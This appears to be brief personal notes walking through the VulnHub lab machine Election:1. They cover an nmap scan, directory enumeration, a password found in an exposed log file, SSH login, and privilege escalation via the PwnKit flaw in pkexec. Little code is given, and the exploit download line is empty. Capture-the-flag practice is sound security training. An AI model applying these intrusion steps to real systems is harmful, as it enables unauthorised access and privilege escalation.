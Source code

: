 

# Election:1 Walkthrough 

**VulnHub Link:** [Election:1](https://www.vulnhub.com/entry/election-1,503/)
**Difficulty:** Easy
**Release Date:** 2 Jul 2020

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.131
```


## 2.Web Enumeration

```bash
dirb http://ip
```

domain adding to /etc/hosts

http://<domain>/election/admin/logs/system.log ---> love user found and it's password found

shell opened with ssh ----> user flag captured

## 3.Exploitation

pkexec version 0.105 ---> PwnKit vulnerability found

```bash
wget 
```
gaining root shell ---> root flag captured.
